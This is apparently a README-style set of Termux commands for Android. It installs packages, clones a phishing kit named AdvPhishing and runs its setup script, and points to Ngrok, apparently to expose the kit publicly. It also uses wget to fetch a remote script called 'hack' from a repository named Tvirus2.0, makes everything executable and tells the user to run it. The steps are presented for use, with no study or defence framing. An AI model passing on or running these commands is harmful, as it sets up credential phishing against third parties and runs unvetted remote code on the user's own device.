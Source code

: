 #Follow This
Vist Ngrok = [Here](ngrok.com)
Download Termux = [Here](https://f-droid.org/repo/com.termux_112.apk)


```
pkg upgrade
pkg install wget
pkg install git
pkg install python
git clone https://github.com/Ignitetch/AdvPhishing
git clone https://github.com/T-Dynamos/Maths_Bot m_bot
git clone https://github.com/Cabbagec/termux-ohmyzsh
wget https://raw.githubusercontent.com/T-Dynamos/Tvirus2.0/main/hack
cd Advphishing
bash Android-Setup.sh
'''
#Second Time 
'''
cd termux-ohmyzsh
bash install.sh
cd
chmod +x *
clear
echo Exectue = ./hack
```



